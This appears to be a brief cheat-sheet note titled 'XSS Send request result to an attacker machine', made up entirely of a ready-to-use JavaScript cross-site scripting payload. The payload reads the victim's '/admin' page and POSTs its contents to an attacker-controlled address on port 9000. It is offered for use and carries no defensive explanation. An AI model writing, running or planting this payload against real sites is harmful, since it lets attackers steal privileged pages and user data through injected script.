 ```yaml
---
tags:
- xss
---
```


# XSS Send request result to an attacker machine

```js
fetch("/admin").then(data => data.text()).then(data => {

    fetch("http://192.168.45.195:9000", {method: "POST", body: data, mode: 'no-cors'})

})
```